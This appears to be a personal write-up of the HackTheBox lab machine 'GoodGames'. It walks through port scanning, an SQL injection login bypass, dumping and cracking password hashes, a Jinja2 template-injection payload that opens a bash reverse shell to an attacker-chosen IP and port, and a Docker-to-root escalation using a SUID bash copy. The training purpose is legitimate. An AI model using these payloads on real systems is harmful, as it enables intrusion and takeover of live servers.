 # This is the Writeup of the HackTheBox machine "GoodGames"

Well hello there! I just finished another HackTheBox machine called "GoodGames" and I decided to make my own writeup to better understand everything that has happened during my pwning. I have learned a couple of new things that honestly I thought work differently, but without further ado, let's start B)

The challenge obviously starts with doing an nmap scan. For this, I really like to use this command : `nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.130` as `-sV` enables version detection, `-Pn` disables host discovery and treats all hosts as online, `-sC` enables script scanning using the default set of Nmap scripts, `-v` makes the output more verbose, `-p-` indicates that all ports will be scanned and `-oN scan` specifies the format and location for the output (that in this case is called "scan").

```Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```


**Don't forget to add goodgames.htb to your /etc/hosts !!!**

Well, the scan didn't show much, so we begin to poke around the main site. What is interesting (for hackers, obviously...) is the login form. We need to provide email and password to be logged into our account. At first, I spend some time poking around with JWT tokens - but it was not the correct way of thinking. I gave up on trying to bruteforce/guess admin's password, as for logging we were using email address, which I didn't know (at this point). After looking up other writeups, it turned out that I should have tried the infamous **SQL INJECTION**. Apparently, even though we had to provide email address in loging form, if we used typical SQL injection payload `email=admin' or 1=1 -- -` we still got logged in as admin (sick!). Now that's a surprise! If we were able to exploit the `email` field with our famous payload, we could test it using tool called `sqlmap`. All we had to do was to intercept our burp request during loging, save it as `request.txt` and then use command like `sqlmap -r request.txt`. This results in a dumped database with usernames and password hashes. Bingo! Now we just need to crack the admin's password and we are ready to go!

I used one of my favourite sites for cracking common passwords: https://crackstation.net. It turns out that our admin uses a really weak password: "superadministrator". This is pathetic... But now we are able to log into the admin's account and try to find a way to mess things up. 
In admin's panel, we can find info about another site called `internal-administration.goodgames.htb` - **Remember to add this address to your /etc/hosts !!!** After visiting this page, we are greeted by a big login form called "_Flask Volt_".  
**_Remember that Flask is a web application framework written in python!_**  
I wonder... What if our admin was really lazy and used the same password couple of times?  
Bingo!  
We can log into the app!  

Here comes the tricky part. I want to be completely honest with you, I lost my patience and looked up what to do next on some another writeup. But hey, that's probably why you are here! That's nothing to be ashamed of, we all have been there. At the end of the day, by overcoming new obstacles, you're learning many valuable things. But anyway - back to the point :)

In the `settings` section, you are able to set you username, date of birth and phone number. And remember this one thing: **IF YOU ARE PENTESTING A PYTHON ENVIRONMENT, THERE IS A BIG CHANCE OF _SSTI_ VULNERABILITY**. I'm not even a pentester, but that's how life works. If you see python - it will be either SSTI or some other deserialization. But now, when I am writing this writeup, it is easy to say I guess...
Well, back to the point. If you try a payload in a name field to be `{{7*7}}`, the generated name will be `49`. That's nice, we found vulnerability. Now you need to identify the Template Engine. There is a couple of ways to do this, but I really like this article: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
If you identify it correctly, you will know that we have just found the Jinja2 Template Engine! Now, let's craft a payload.
The most common payload looks like this: `{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/<ip>/<port> 0>&1').read()}}`, unfortunately, when I tried this, it didn't work. So, good way of thinking is to base64 encode our payload and use `${IFS}` as a `space` character. If we base64 encode our `bash -i >& /dev/tcp/<ip>/<port> 0>&1` part, our final payload would look like this: `{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<BASE64 ENCODED PART>${IFS}|base64${IFS}-d${IFS}|bash').read()}}`.

Pheeew, that was intense! Now let's setup a netcat listener using command `nc -lvnp 1337`, change name in the app to the previously given payload, and wait for magic to happen.  
Badaboom!  
We just landed our reverse shell!  

But what has happened?? Why are we root immediately?? Why is there no root.txt flag??? I'll explain! We are in a docker container. You can know this after seeing that after using `ls -la`, you see the user id's instead of user name's when listing files. Also, when you use `mount` command, you can see that there is "augustus" home directory mounted to this docker. Let's check the IPv4 of our container! Hmmmm... Why is it 172.19.0.2 instead of 172.19.0.1? Is there something running on the 172.19.0.1? There is only one way to find out! And maybe, just maybe our user is really, really lazy, and has used the same password third time!? But to do this, we need to be able to use `ssh`. Now we are not. Try this command: `script /dev/null bash`. It will start a new interactive Bash shell session, but all the input and output of the session will be discarded. Now, after `ssh augustus@172.19.0.1` and using the same password as before, we are able to log in as augustus.  

The last part of our journey is getting root access. Again, **WHEN YOU HAVE ACCESS TO A DOCKER CONTAINER WITH A MOUNTED FILESYSTEM OR ABILITY TO MOUNT, YOU WILL PROBABLY NEED TO CLONE A BINARY LIKE /BIN/BASH AND GIVE IT THE SUID BIT OR SOMETHING LIKE THIS**. So that's exactly what we will do! Let's go to the augustus home directory and copy the /bin/bash binary (`cp /bin/bash .`). Now let's use `logout` to go back to docker container. Look at this! There is our copied bash binary and we have root access and complete freedom in modyfing it's permissions! So nw, let's change the owner of this binary: `chown root:root bash`, then let's add SUID bit: `chmod s+u bash`. Now let's log again as augustus and if we did everything perfectly, you should be able to execute bash binary from augustus home directory with elevated privileges. If you execute `./bash -p`, you should become _root_.  

Thank you so much for reading this writeup. This means a lot to me and I hope you learned something new, as I certainly did :) If you have any suggestions please write to me and I'll try to make my writeups better and better. See you!


